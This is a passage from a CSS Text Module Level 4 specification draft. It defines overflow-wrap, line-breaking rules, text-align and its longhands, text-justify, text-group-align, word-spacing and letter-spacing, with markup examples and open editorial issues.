This property specifies whether the UA may break at otherwise disallowed points within a line to prevent overflow, when an otherwise-unbreakable string is too long to fit within the line box. It only has an effect when `white-space` allows wrapping. Possible values:

****normal****

: Lines may break only at allowed break points. However, the restrictions introduced by `word-break: keep-all` may be relaxed to match `word-break: normal` if there are no otherwise-acceptable break points in the line.

  Also, the restrictions introduced by `word-break: auto-phrase` are relaxed if there are no otherwise-acceptable break points in the line:

  - If suppressing soft wrap opportunities within a particular phrase would cause that phrase to overflow even when placed on an otherwise empty line, the user agent must fall back to the same soft wrap opportunities as `normal` within that phrase.
  - If that is not enough to prevent overflow, suppression of hyphenation opportunities must also be abandoned within each line that would overflow.
  - As an intermediary measure, user agents may also detect multiple levels of phrases, choosing to shorter ones (possibly down to individual words) when longer ones would lead to overflow.

  The soft wrap opportunities obtained by relaxing the restrictions introduced by `word-break: keep-all` and `word-break: auto-phrase` are *not* considered when calculating min-content intrinsic sizes.

****anywhere****

: An otherwise unbreakable sequence of characters may be broken at an arbitrary point if there are no otherwise-acceptable break points in the line. Shaping characters are still shaped as if the word were not broken, and grapheme clusters must stay together as one unit. No hyphenation character is inserted at the break point. Soft wrap opportunities introduced by `anywhere` *are considered* when calculating min-content intrinsic sizes.

  In the case of `word-break: auto-phrase`, these additional soft wrap opportunities are only introduced if relaxing the restrictions introduced by `word-break: auto-phrase` as described in `overflow-wrap: normal` is insufficient to prevent overflow.

****break-word****

: As for `anywhere` except that soft wrap opportunities introduced by `break-word` are *not* considered when calculating min-content intrinsic sizes.

> **Issue:** Do we need to add a `none` value to `overflow-wrap` to opt out of relaxing the `keep-all` and `auto-phrase` restrictions as allowed by `overflow-wrap: normal`?

For legacy reasons, UAs must treat **word-wrap** as a legacy name alias of the `overflow-wrap` property.

#### 6.5.  Line Breaking Details {#css-text-4:line-break-details}

When determining line breaks:

- The interaction of line breaking and bidirectional text is defined by [CSS Writing Modes 4 § 2.4 Applying the Bidirectional Reordering Algorithm](#css-writing-modes-4:bidi-algo) and the Unicode Bidirectional Algorithm ([UAX9§3.4 Reordering Resolved Levels](http://unicode.org/reports/tr9/#Reordering_Resolved_Levels) in particular). [CSS-WRITING-MODES-4] [UAX9]
- Preserved segment breaks, and—​regardless of the `white-space` values—​any Unicode character with the `BK` and `NL` line breaking class, must be treated as forced line breaks. [UAX14]

  > **Note:** The bidi implications of such forced line breaks are defined by the [Unicode Bidirectional Algorithm](https://www.unicode.org/reports/tr9/). [UAX9]
- Except where explicitly defined otherwise (e.g. for `line-break: anywhere` or `overflow-wrap: anywhere`) line breaking behavior defined for the `CM`, and `SG`, `WJ`, `ZW`, `GL`, and `ZWJ` Unicode line breaking classes must be honored. [UAX14]
- CSS never allows soft wrap opportunities within typographic character units. Thus, the `CM` and `SG` Unicode line breaking classes must always be honored. [UAX14]
- UAs that allow wrapping at punctuation other than word separators in writing systems that use them *should* prioritize breakpoints. (For example, if breaks after slashes are given a lower priority than spaces, the sequence “check /etc” will never break between the "/" and the "e".) As long as care is taken to avoid such awkward breaks, allowing breaks at appropriate punctuation other than word separators is recommended, as it results in more even-looking margins, particularly in narrow measures. The UA may use the width of the containing block, the text’s language, the `line-break` value, and other factors in assigning priorities: CSS does not define prioritization of soft wrap opportunities. Prioritization of word separators is not expected, however, if `word-break: break-all` is specified (since this value explicitly requests line breaking behavior not based on breaking at word separators)—​and is forbidden under `line-break: anywhere`.
- Out-of-flow boxes and inline box boundaries do not introduce a forced line break or soft wrap opportunity in the flow.
- For Web-compatibility there is a soft wrap opportunity before and after each replaced element or other atomic inline, even when adjacent to a character that would normally suppress them, including U+00A0 NO-BREAK SPACE. However, with the exception of U+00A0 NO-BREAK SPACE, there must be no soft wrap opportunity between atomic inlines and adjacent characters belonging to the Unicode GL, WJ, or ZWJ line breaking classes. [UAX14]
- For soft wrap opportunities created by characters that disappear at the line break (e.g. U+0020 SPACE), properties on the box directly containing that character control the line breaking at that opportunity. For soft wrap opportunities defined by the boundary between two characters or atomic inlines, the `white-space` property on the nearest common ancestor of the two characters controls breaking; which elements’ `line-break`, `word-break`, and `overflow-wrap` properties control the determination of soft wrap opportunities at such boundaries is undefined in this level.
- For soft wrap opportunities before the first or after the last character of a box, the break occurs immediately before/after the box (at its margin edge) rather than breaking the box between its content edge and the content.
- Line breaking in/around Ruby is defined in [CSS Ruby Annotation Layout 1 § 3.4 Breaking Across Lines](#css-ruby-1:line-breaks). [CSS-RUBY-1]
- When shaping scripts such as Arabic wrap at unforced soft wrap opportunities within words (such as when breaking due to `word-break: break-all`, `line-break: anywhere`, `overflow-wrap: break-word`, `overflow-wrap: anywhere`, or when hyphenating) the characters must still be shaped (their joining forms chosen) as if the word were still whole.

  > **Example:** For example, if the word “نوشتن” is broken between the “ش” and “ت”, the “ش” still takes its initial form (“ﺷ”), and the “ت” its medial form (“ﺘ”)—​forming as in “ﻧﻮﺷ | ﺘﻦ”, not as in “نوش | تن”.

### 7.  Alignment and Justification {#css-text-4:justification}

Alignment and justification controls how inline content is distributed within a line box.

#### 7.1.  Text Alignment: the `text-align` shorthand {#css-text-4:text-align-property}

| Field | Value |
| --- | --- |
| Name: | **text-align** |
| [Value:](#css-values-4:value-defs) | start \| end \| left \| right \| center \| `<string>` \| justify \| match-parent \| justify-all |
| [Initial:](#css-cascade-6:initial-values) | start |
| [Applies to:](#css-cascade-5:applies-to) | block containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| [Canonical order:](#cssom-1:serializing-css-values) | n/a |

This shorthand property sets the `text-align-all` and `text-align-last` properties and describes how the inline-level content of a block is aligned along the inline axis if the content does not completely fill the line box. Values other than `justify-all` or `match-parent` are assigned to `text-align-all` and reset `text-align-last` to `auto`.

Values have the following meanings:

****start****

: Inline-level content is aligned to the start edge of the line box.

****end****

: Inline-level content is aligned to the end edge of the line box.

****left****

: Inline-level content is aligned to the line-left edge of the line box. (In vertical writing modes, this can be either the physical top or bottom, depending on `writing-mode`.) [CSS-WRITING-MODES-4]

****right****

: Inline-level content is aligned to the line-right edge of the line box. (In vertical writing modes, this can be either the physical top or bottom, depending on `writing-mode`.) [CSS-WRITING-MODES-4]

****center****

: Inline-level content is centered within the line box.

****`<string>`****

: The string must be a single character; otherwise the declaration is invalid and must be [ignored](#css2:ignore). When applied to a table cell, specifies the **alignment character** around which the cell’s contents will align. See [below](#css-text-4:character-alignment) for further details and how this value combines with keywords.

****justify****

: Text is justified according to the method specified by the `text-justify` property, in order to exactly fill the line box. Unless otherwise specified by `text-align-last`, the last line before a forced line break is `start`-aligned.

****justify-all****

: Sets both `text-align-all` and `text-align-last` to `justify`, forcing the last line to justify as well.

****match-parent****

: This value behaves the same as `inherit` (computes to its parent’s computed value) except that an inherited value of `start` or `end` is interpreted against the parent’s `direction` value and results in a computed value of either `left` or `right`. Computes to `start` when specified on the root element.

  When specified on the `text-align` shorthand, sets both `text-align-all` and `text-align-last` to `match-parent`.

A block of text is a stack of line boxes. This property specifies how the inline-level boxes within each line box align with respect to the start and end sides of the line box. Alignment is not with respect to the [viewport](#css2:viewport) or containing block.

In the case of `justify`, the UA may stretch or shrink any inline boxes by [adjusting](#css-text-4:text-justify-property) their text. (See `text-justify`.) If an element’s white space is not collapsible, then the UA is not required to adjust its text for the purpose of justification and may instead treat the text as having no justification opportunities. If the UA chooses to adjust the text, then it must ensure that tab stops continue to line up as required by the [white space processing rules](#css-text-4:white-space-rules).

If (after justification, if any) the inline contents of a line box are too long to fit within it, then the contents are start-aligned: any content that doesn’t fit overflows the line box’s end edge.

See [§ 9.3 Bidirectionality and Line Boxes](#css-text-4:bidi-linebox) for details on how to determine the start and end edges of a line box.

#### 7.2.  Character-based Alignment in a Table Column {#css-text-4:character-alignment}

When multiple cells in a column have an alignment character specified, the alignment character of each such cell in the column is centered along a single column-parallel axis and the rest of the text in the column shifted accordingly. (Note that the strings do not have to be the same for each cell, although they usually are.)

> **Issue:** Is this intended to say that it’s the centers of the alignment characters that should be aligned? It’s not clear that’s what it says, but that (or a different behavior) needs to be specified, to describe what happens when different occurrences of the alignment character are in different fonts. (Further, is that the intended behavior? Probably the most significant use case to consider is bold vs. non-bold text, which only varies slightly in width.) [[feedback](https://lists.w3.org/Archives/Public/www-style/2016Jan/0233.html)] [minutes face-to-face 2016-02-02 10:00 AM]

> **Example:** The following style sheet:
>
> ```
> TD { text-align: "." center }
> ```
>
> will cause the column of dollar figures in the following HTML table:
>
> ```
> <TABLE>
> <COL width="40">
> <TR> <TH>Long distance calls
> <TR> <TD> $1.30
> <TR> <TD> $2.50
> <TR> <TD> $10.80
> <TR> <TD> $111.01
> <TR> <TD> $85.
> <TR> <TD> N/A
> <TR> <TD> $.05
> <TR> <TD> $.06
> </TABLE>
> ```
>
> to align along the decimal point. The table might be rendered as follows:
>
> ```
> +---------------------+
> | Long distance calls |
> +---------------------+
> |         $1.30       |
> |         $2.50       |
> |        $10.80       |
> |       $111.01       |
> |        $85.         |
> |        N/A          |
> |          $.05       |
> |          $.06       |
> +---------------------+
> ```

A keyword value may be specified in conjunction with the `<string>` value; if it is not given, it defaults to `right`. This value is used:

- when character-based alignment is applied to boxes that are not table cells.
- when the text wraps to multiple lines (at unforced break points).
- when a character-aligned cell spans more than one column. In this case the keyword alignment value is used to determine which column’s axis to align with: the leftmost column for `left`, the rightmost column for `right` and `center`, the startmost column for `start`, the endmost column for `end`.
- when the column is wide enough that the character alignment alone does not determine the positions of its character-aligned contents. In this case the keyword alignment of the first cell in the column with a specified alignment character is used to slide the position of the character-aligned contents to match the keyword alignment insofar as possible without changing the width of the column. For `center`, the UA may center the aligned contents using its extremes, center the alignment axis itself (insofar as possible), or optically center the aligned contents some other way (such as by taking a weighted average of the extent of the cells' contents to either side of the axis).

> **Note:** Right alignment is used by default for character-based alignment because numbering systems are almost all left-to-right even in right-to-left writing systems, and the primary use case of character-based alignment is for numerical alignment.

If the alignment character appears more than once in the text, the first instance is used for alignment. If the alignment character does not appear in a cell at all, the string is aligned as if the alignment character had been inserted at the end of its contents.

> **Issue:** This needs to specify what text is searched for the alignment character. Is it only in-flow text whose containing block is the cell? Or is text within any in-flow descendants in the block formatting context established by the cell considered? If so, is it considered only as long as its `text-align` property is consistent with the cell’s? (Consistent in the alignment character, or fully consistent?)

> **Issue:** This behavior of aligning as though the alignment character had been inserted at the end of the contents of the cell, combined with center-of-character alignment, will produce gaps on the end-side of lines that are alone on a line with `<string>` text-alignment, when none of the lines of the column has the alignment character, or, more importantly, when some of the lines do have the alignment character, but the column is not laid out at its max-content width. This is probably undesirable.

> **Issue:** When the alignment character is inserted at the end of the contents, which font is used? (In particular, if the alignment character might be within a descendant block, is it the font of the block or the font of the table cell? Or if the insertion is at a forced break within an inline, does it use the font of the inline or the font of the block or cell?)

Character-based alignment occurs before table cell width computation so that auto width computations can leave enough space for alignment. Whether column-spanning cells participate in the alignment prior to or after width computation is undefined. If width constraints on the cell contents prevent full alignment throughout the column, the resulting alignment is undefined.

> **Issue:** This should have a formal definition of how character alignment affects the min-content and max-content intrinsic widths (of table columns and all content that can be inside table columns). Max-content intrinsic widths need to be split into three numbers (assuming that it’s the centers of the alignment character that are aligned): one for widths without alignment characters, one for widths on the inline-start side of the center of the alignment character, one for widths on the inline-end side of the center of the alignment character. This operates based on all segments of text between forced breaks for max-content widths. For min-content widths, segments of text between forced breaks that contain optional breaks within them should clearly contribute only to the without-alignment-character width. However, it’s less clear whether all min-content widths should work this way, or whether segments between forced breaks that do not have optional breaks (and perhaps only those that actually contain the alignment character) should contribute to start-side-of-alignment-character and end-side-of-alignment-character min-content widths instead; this choice is a tradeoff between the meaning of min-content sizing of a table meaning the narrowest reasonable size versus honoring alignment characters in more cases. Another option might be to use whether line-breaking of optional breaks is allowed as a control for which behavior to use.

> **Issue:** Formally defining the intrinsic width contributions of column-spanning cells with `<string>` values of `text-align` is a complicated (although straightforward) extension of the decisions made for intrinsic width contributions of non-column-spanning cells; this should also be formally defined. Contributions end up being made to the split intrinsic widths of the startmost or endmost column (whichever is used for alignment), and to the without-alignment-character intrinsic widths of the other spanned columns.

#### 7.3.  Default Text Alignment: the `text-align-all` property {#css-text-4:text-align-all-property}

| Field | Value |
| --- | --- |
| Name: | **text-align-all** |
| [Value:](#css-values-4:value-defs) | start \| end \| left \| right \| center \| `<string>` \| justify \| match-parent |
| [Initial:](#css-cascade-6:initial-values) | start |
| [Applies to:](#css-cascade-5:applies-to) | block containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | keyword as specified, except for `match-parent` which computes as defined above |
| [Canonical order:](#cssom-1:serializing-css-values) | n/a |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This longhand of the `text-align` shorthand property specifies the inline alignment of all lines of inline content in the block container, except for last lines overridden by a non-`auto` value of `text-align-last`. See `text-align` for a full description of values.

> **Advisement:** Authors should use the `text-align` shorthand instead of this property.

#### 7.4.  Last Line Alignment: the `text-align-last` property {#css-text-4:text-align-last-property}

| Field | Value |
| --- | --- |
| Name: | **text-align-last** |
| [Value:](#css-values-4:value-defs) | auto \| start \| end \| left \| right \| center \| justify \| match-parent |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | block containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | keyword as specified, except for `match-parent` which computes as defined above |
| [Canonical order:](#cssom-1:serializing-css-values) | n/a |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property describes how the last line of a block or a line right before a forced line break is aligned.

If **auto** is specified, content on the affected line is aligned per `text-align-all` unless `text-align-all` is set to `justify`, in which case it is `start`-aligned. All other values are interpreted as described for `text-align`.

#### 7.5.  Justification Method: the `text-justify` property {#css-text-4:text-justify-property}

| Field | Value |
| --- | --- |
| Name: | **text-justify** |
| [Value:](#css-values-4:value-defs) | [ auto \| none \| inter-word \| inter-character \| ruby ] \|\| no-compress |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword (except for the `distribute` legacy value) |
| [Canonical order:](#cssom-1:serializing-css-values) | n/a |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property selects the justification method used when a line’s alignment is set to `justify` (see `text-align`). The property applies to text, but is inherited from block containers to the root inline box containing their inline-level contents. It takes the following values:

****auto****

: The UA determines the justification algorithm to follow, based on a balance between performance and adequate presentation quality. Since justification rules vary by writing system and language, UAs should, where possible, use a justification algorithm appropriate to the text.

  > **Example:** For example, the UA could use by default a justification method that is a simple universal compromise for all writing systems—​such as primarily expanding word separators and between CJK typographic letter units along with secondarily expanding between Southeast Asian typographic letter units. Then, in cases where the content language of the paragraph is known, it could choose a more language-tailored justification behavior e.g. following the [Requirements for Japanese Text Layout](https://www.w3.org/TR/jlreq/) for Japanese [JLREQ], using cursive elongation for Arabic, using `inter-word` for German, etc.

  

  An example of cursively-justified Arabic text, rendered by [Tasmeem](https://www.decotype.com/). Like English, Arabic can be justified by adjusting the spacing between words, but in most styles it can also be justified by calligraphically elongating or compressing the letterforms themselves. In this example, the upper text is extended to fill the line by the use of elongated (kashida) forms and swash forms, while the bottom line is compressed slightly by using a stacked combination for the characters between ت and م. By employing traditional calligraphic techniques, a typesetter can justify the line while preserving flow and color, providing a very high quality justification effect. However, this is by its nature a very script-specific effect.

  

  Mixed-script text with `text-justify: auto`: this interpretation uses a universal-compromise justification method, expanding at spaces as well as between CJK and Southeast Asian letters. This effectively uses inter-word + inter-ideograph spacing for lines that have word-separators and/or CJK characters and falls back to inter-cluster behavior for lines that don’t or for which the space stretches too far.

****none****

: Justification is disabled: there are no justification opportunities within the text.

  

  Mixed-script text with `text-justify: none`

  > **Note:** This value is intended for use in user stylesheets to improve readability or for accessibility purposes.

****inter-word****

: Justification adjusts spacing at word separators only (effectively varying the used `word-spacing` on the line). This behavior is typical for languages that separate words using spaces, like English or Korean.

  

  Mixed-script text with `text-justify: inter-word`

****inter-character****

: Justification adjusts spacing between each pair of adjacent typographic character units (effectively varying the used `letter-spacing` on the line). This value is sometimes used in East Asian systems such as Japanese.

  

  Mixed-script text with `text-justify: inter-character`

  For legacy reasons, UAs must also support the alternate keyword **distribute** which must compute to `inter-character`, thus having the exact same meaning and behavior. UAs may treat this as a legacy value alias.

****ruby****

: Justification adjusts spacing as for `auto` *except*:

  - Justification opportunities are disabled at word separators.
  - Justification opportunities are disabled between Bopomofo characters

  > **Note:** This value is intended for use in ruby annotations, providing a reasonable default alignment. See [CSS-RUBY-1].

****no-compress****

: Justification must not compress spacing controlled by `text-spacing-trim` or `text-autospace`. (If this value is not specified, the justification process may reduce such spacing except when the spacing is at the start or end of the line.)

  > **Note:** An example of compression rules is given for Japanese in 3.8 Line Adjustment in [JLREQ].

  > **Issue:** This keyword used to be part of `text-spacing`; it might need renaming to be more specific now that it’s here, as it implies that e.g. U+0020 cannot be compressed. [[Issue #7079]](https://github.com/w3c/csswg-drafts/issues/7079)

> **Advisement:** Since optimal justification is language-sensitive, authors should correctly language-tag their content for the best results.

> **Note:** The guidelines in this level of CSS do not describe a complete justification algorithm. They are merely a minimum set of requirements that a complete algorithm should meet. Limiting the set of requirements gives UAs some latitude in choosing a justification algorithm that meets their needs and desired balance of quality, speed, and complexity.

##### 7.5.1.  Expanding and Compressing Text {#css-text-4:expanding-text}

When justifying text, the user agent takes the remaining space between the ends of a line’s contents and the edges of its line box, and distributes that space throughout its content so that the contents exactly fill the line box. The user agent may alternatively distribute negative space, putting more content on the line than would otherwise fit under normal spacing conditions.

A **justification opportunity** is a point where the justification algorithm may alter spacing within the text. A justification opportunity can be provided by a single typographic character unit (such as a word separator), or by the juxtaposition of two typographic character units. As with controls for [soft wrap opportunities](#css-text-4:line-break-details), whether a typographic character unit provides a justification opportunity is controlled by the `text-justify` value of its parent; similarly, whether a justification opportunity exists between two consecutive typographic character units is determined by the `text-justify` value of their nearest common ancestor.

Space distributed by justification is *in addition to* the spacing defined by the `letter-spacing` or `word-spacing` properties. When such additional space is distributed to a word separator justification opportunity, it is applied under the same rules as for `word-spacing`. Similarly, when space is distributed to a justification opportunity between two typographic character units, should be applied under the same rules as for `letter-spacing`.

A justification algorithm may divide justification opportunities into different priority levels. All justification opportunities within a given level are expanded or compressed at the same priority, regardless of which typographic character units created that opportunity. For example, if justification opportunities between two Han characters and between two Latin letters are defined to be at the same level (as they are in the `inter-character` justification style), they are not treated differently because they originate from different typographic character units. It is not defined in this level whether or how other factors (such as font size, letter-spacing, glyph shape, position within the line, etc.) may influence the distribution of space to justification opportunities within the line.

The UA may enable or break optional ligatures or use other font features such as alternate glyphs or glyph compression to help justify the text under any method. This behavior is not controlled by this level of CSS. However, UAs *must not* break required ligatures or otherwise disable features required to correctly shape complex scripts.

If a justification opportunity exists within a line, and [text alignment](#css-text-4:text-align-property) specifies full justification (`justify`) for that line, it must be justified.

##### 7.5.2.  Handling Symbols and Punctuation {#css-text-4:justify-symbols}

When determining justification opportunities, a typographic character unit from the Unicode Symbols (S*) and Punctuation (P*) classes is generally treated the same as a typographic letter unit of the same script (or, if the character’s extended script property is Common, then as a typographic letter unit of the dominant script).

However, by typographic tradition there may be additional rules controlling the justification of symbols and punctuation. Therefore, the UA may reassign specific characters or introduce additional levels of prioritization to handle justification opportunities involving symbols and punctuation.

> **Example:** For example, there are traditionally no justification opportunities between consecutive U+2014 — EM DASH, U+2015 ― HORIZONTAL BAR, U+2026 … HORIZONTAL ELLIPSIS, or U+2025 ‥ TWO DOT LEADER characters [JLREQ]; thus a UA might assign these characters to a “never” prioritization level. As another example, certain full-width punctuation characters (such as U+301A 〚 LEFT WHITE SQUARE BRACKET) are considered to contain a justification opportunity in Japanese. The UA might therefore assign these characters to a higher prioritization level than the opportunities between ideographic characters.

##### 7.5.3.  Unexpandable Text {#css-text-4:justify-limits}

If the inline contents of a line cannot be stretched to the full width of the line box, then they must be aligned as specified by the `text-align-last` property. (If `text-align-last` is `justify`, then they must be aligned as for `center`.)

##### 7.5.4.  Cursive Scripts {#css-text-4:justify-cursive}

Justification *must not* introduce gaps between the joined typographic letter units of cursive scripts such as Arabic. If it is able, the UA *may* translate space distributed to justification opportunities within a run of such typographic letter units into some form of cursive elongation for that run. It otherwise *must* assume that no justification opportunity exists between any pair of typographic letter units in cursive script (regardless of whether they join).

> **Example:** The following are examples of unacceptable justification:
>
> 
>
> Adding gaps between every pair of Arabic letters
>
> 
>
> Adding gaps between every pair of unjoined Arabic letters

Some font designs allow for the use of the tatweel character for justification. A UA that performs tatweel-based justification must properly handle the rules for its use. Note that correct insertion of tatweel characters depends on context, including the letter-combinations involved, location within the word, and location of the word within the line.

##### 7.5.5.  Minimum Requirements for `auto` Justification {#css-text-4:justify-algos}

For `auto` justification, this specification does not define what all of the justification opportunities are, how they are prioritized, or when and how multiple levels of justification opportunities interact. However, it does require that:

- Unless contraindicated by the typographic traditions of the content language or adjacent symbols/punctuation, each of the following provides a justification opportunity:

  - Word separators
  - The boundary between a typographic character unit of any block scripts and any other typographic character unit
  - The boundary between a typographic character unit of any clustered scripts and any other typographic character unit
- All letters belonging to all block scripts are treated the same, and all letters belonging to all clustered scripts are treated the same. For example, no distinction is made between the justification opportunity between a Han letter followed by another Han letter, vs. the justification opportunity between a Han letter followed by a Hangul letter.

Further information on text justification can be found in (or submitted to) [“Approaches to Full Justification”](https://www.w3.org/International/articles/typography/justification), which indexes by writing system and language, and is maintained by the [W3C Internationalization Working Group](https://www.w3.org/International/). [JUSTIFY]

#### 7.6.  Aligning a block of text within its container: the `text-group-align` property {#css-text-4:text-group-align-property}

| Field | Value |
| --- | --- |
| Name: | **text-group-align** |
| [Value:](#css-values-4:value-defs) | none \| start \| end \| left \| right \| center |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | block containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property aligns the contents of the line boxes as a group while maintaining their text alignment.

**Group alignment** is performed by finding the line box with the shortest remaining space and adding that amount of space as padding to one or both sides of the line box, reducing the amount of space available for its contents; [text alignment](#css-text-4:text-align-property) is then applied to its contents within the remaining space. All descendant in-flow line boxes within the same block formatting context are considered both when searching for the shortest remaining space and when adding the padding; the contents of descendants that establish independent formatting contexts are skipped.

> **Issue:** A variant of this property is inherited, and applies on each block container individually, only affecting the line boxes that are direct children of that block. This is less useful, but probably easier to implement.

> **Issue:** Somehow also moving the floats that originate in the same block container by the same amount would make things line up more nicely, which would be especially valuable in CJK layout. Exactly how that works, and how it interacts with intruding floats from ancestor elements is left as an exercise for the reader.

Values have the following meanings:

****none****

: Text alignment happens normally: group alignment is not performed.

****start****

: Inline-level content is group-aligned to the inline start side, by padding the inline end side of each line box.

****end****

: Inline-level content is group-aligned to the inline end side, by padding the inline start side of each line box.

****left****

: Inline-level content is group-aligned to the line-left side, by padding the line-right side of each line box.

****right****

: Inline-level content is group-aligned to the line-right side, by padding the line-left side of each line box.

****center****

: Inline-level content is group-aligned to the center, by padding both sides of each line box, half the spacing to each side.

### 8.  Spacing {#css-text-4:spacing}

CSS offers control over regular text spacing via the `word-spacing`, `letter-spacing`, and `line-padding` properties, which specify additional space around word separators between typographic character units, or at the start/end of the line, respectively. It also provides contextual control over spacing via the `text-spacing-trim` property, which allows for contextual fullwidth vs halfwidth setting of CJK punctuation; and the `text-autospace` property, which allows automatic insertion of extra space at script changes or around punctuation.

#### 8.1.  Word Spacing: the `word-spacing` property {#css-text-4:word-spacing-property}

| Field | Value |
| --- | --- |
| Name: | **word-spacing** |
| [Value:](#css-values-4:value-defs) | normal \| `<length-percentage>` |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | relative to used `font-size` |
| [Computed value:](#css-cascade-6:computed) | an absolute length and/or a percentage |
| [Canonical order:](#cssom-1:serializing-css-values) | n/a |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property specifies additional spacing between “words”. Values are interpreted as defined below:

****normal****

: No additional spacing is applied. Computes to zero.

****<length-percentage>****

: Specifies extra spacing *in addition to* the intrinsic inter-word spacing defined by the font.

  > **Note:** Percentages inherit intact, and are resolved against the used `font-size` of the current element (and thus represent a size relative to the size of the text to which they apply), unlike `em` units which are resolved against the computed `font-size` of the element from which they inherit, as an absolute length.

Additional spacing is applied to each word separator left in the text after the [white space processing rules](#css-text-4:white-space-rules) have been applied, and should be applied half on each side of the character unless otherwise dictated by typographic tradition. Values may be negative, but there may be implementation-dependent limits.

**Word-separator characters** are typographic character units whose primary purpose and general usage is to separate words. In Unicode this includes (but is not exhaustively defined as) the space (U+0020), the no-break space (U+00A0), the Ethiopic word space (U+1361), the Aegean word separators (U+10100,U+10101), the Ugaritic word divider (U+1039F), and the Phoenician word separator (U+1091F). [UNICODE]

> **Note:** Neither punctuation in general, nor fixed-width spaces (such as U+3000 and U+2000 through U+200A), are considered word-separator characters, because even though they frequently happen to separate words, their primary purpose is not to separate words.

If there are no word-separator characters, or if a word-separating character has a zero advance width (such as U+200B ZERO WIDTH SPACE) then the user agent must not create an additional spacing between words.

#### 8.2.  Tracking: the `letter-spacing` property {#css-text-4:letter-spacing-property}

| Field | Value |
| --- | --- |
| Name: | **letter-spacing** |
| [Value:](#css-values-4:value-defs) | normal \| `<length-percentage>` |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | inline boxes and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | relative to used `font-size` |
| [Computed value:](#css-cascade-6:computed) | an absolute length and/or a percentage |
| [Canonical order:](#cssom-1:serializing-css-values) | n/a |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property specifies additional spacing (commonly called **tracking**) between adjacent typographic character units. Letter-spacing is applied after [bidi reordering](#css-writing-modes-4:text-direction) and is in addition to [kerning](#css-fonts-4:font-kerning-prop) and `word-spacing`. [CSS-WRITING-MODES-4] [CSS-FONTS-3] Depending on the justification rules in effect, user agents may further increase or decrease the space between typographic character units in order to [justify text](#css-text-4:text-justify-property).

Values have the following meanings:

****normal****

: No additional spacing is applied. Computes to zero.

****<length-percentage>****

: Specifies *additional* spacing between typographic character units. Values may be negative, but there may be implementation-dependent limits.

  > **Note:** Percentages inherit intact, and are resolved against the used `font-size` of the current element (and thus represent a size relative to the size of the text to which they apply), unlike `em` units which are resolved against the computed `font-size` of the element from which they inherit, as an absolute length.

For [legacy reasons](https://github.com/w3c/csswg-drafts/issues/1484), a computed `letter-spacing` of zero yields a resolved value (`getComputedStyle()` return value) of `normal`.

Letter-spacing is applied to each typographic character unit by inserting half of the additional spacing on each side; except it is not applied at the beginning or end of a line.

> **Example:** Letter-spacing is not applied at the beginning or end of a line so that text always fits flush with the edge of the block.
>
> ```
> p { letter-spacing: 1em; }
> ```
>
> ```
> <p>abc</p>
> ```
>
> a　b　c
>
> a　b　c
>
> Applying letter spacing to the right or trailing edge of a line is incorrect:
>
> a　b　c

> **Example:** As each letter with letter-spacing places half of the space assigned to it before and half after, this adds up to the full amount of spacing between adjacent letters. No spacing is added at the start or end of the line.
>
> ```
> p { letter-spacing: 1em; }
> ```
>
> ```
> <p>aa<span>bb</span>cc</p>
> ```
>
> aabbcc
>
> When the value varies between adjacent inlines, the effective spacing between adjacent letters of different inlines amounts to the average between the two.
>
> ```
> p    { letter-spacing: 1em; }
> span { letter-spacing: 2em; }
> ```
>
> ```
> <p>aa<span>bb</span>cc</p>
> ```
>
> aabbcc
>
> Letter spacing is inserted **after** RTL reordering. This affects which letter has spacing suppressed on one side due to being at the edge of the line.
>
> ```
> p    { letter-spacing: 1em; }
> span { letter-spacing: 2em; }
> ```
>
> ```
> <!-- abc followed by Hebrew letters alef (א), bet (ב) and gimel (ג) -->
> <!-- Reordering will display these in reverse order. -->
> <p>ab<span>cא</span>בג</p>
> ```
>
> abcאבג

For the purpose of `letter-spacing`, each consecutive run of atomic inlines (such as images and inline blocks) is treated as a single typographic character unit.

Letter spacing ignores invisible zero-width formatting characters (such as those from the Unicode Cf category). Spacing must be added as if those characters did not exist in the document.

> **Example:** For example, `letter-spacing` applied to `A&#x200B;B` is identical to `AB`, regardless of where any element boundaries might fall.

When the effective spacing between two characters is not zero (due to either [justification](#css-text-4:text-justify-property) or a non-zero value of `letter-spacing`), user agents should not apply optional ligatures, i.e. those that are not defined as required for fundamentally correct glyph shaping. However, ligatures and other font features specified via the low-level `font-feature-settings` property take precedence over this rule. See [CSS Fonts Module Level 3 § feature-precedence](https://drafts.csswg.org/css-fonts-3/#feature-precedence).

> **Example:** For example, if the word “filial” is letter-spaced, an “fi” ligature should not be used as it will prevent even spacing of the text.
>
> **filial** vs **filial**

> **Note:** In OpenType, required ligatures are expected to be associated to the `rlig` feature. All other ligatures are therefore considered optional. In some cases, however, UA or platform heuristics apply additional ligatures in order to handle broken fonts; this specification does not define or override such exceptional handling.

##### 8.2.1.  Cursive Scripts {#css-text-4:cursive-tracking}

